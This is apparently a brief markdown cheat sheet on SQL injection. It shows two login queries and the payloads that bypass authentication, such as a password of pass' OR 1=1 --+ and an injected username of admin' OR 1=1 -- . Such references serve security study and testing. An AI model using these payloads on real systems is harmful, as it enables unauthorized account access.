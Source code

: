 ----------------------------------
# SQL Injection

## Authentication Bypass Variant 1
### query:
SELECT * FROM users WHERE username='admin' AND password='pass'

### payload:
*username*:admin

*password*:pass' OR 1=1 --+

**NOTE:** + is similar to space in URL encoding




## Authentication Bypass Variant 2
### query:
SELECT * FROM users WHERE username='admin' AND password='1a1dc91c907325c69271ddf0c944bc72'

### payload:
*username*:admin' OR 1=1 -- 

*password*:123
